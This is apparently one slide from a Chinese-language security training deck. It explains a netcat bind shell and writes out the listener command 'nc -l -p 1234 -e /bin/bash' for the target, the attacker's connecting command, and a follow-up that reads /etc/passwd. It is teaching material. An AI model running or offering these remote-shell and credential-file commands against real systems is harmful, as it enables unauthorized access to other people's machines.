

# 資安常用指令
nc(netcat)命令工具:
Bind shell建立(中間沒有防火牆):

建立步驟
於目標上建立監聽 Port 1234，使用sh執行
[obj]# nc –l –p 1234 –e /bin/bash
攻擊者與Port 1234建立連線
[attack]# nc [目標 URL] 1234
 [attack]# more /etc/passwd (完成連線後下達攻擊的指令)

攻擊者
發送攻擊指令

目標
shell
連線某個TCP PORT
283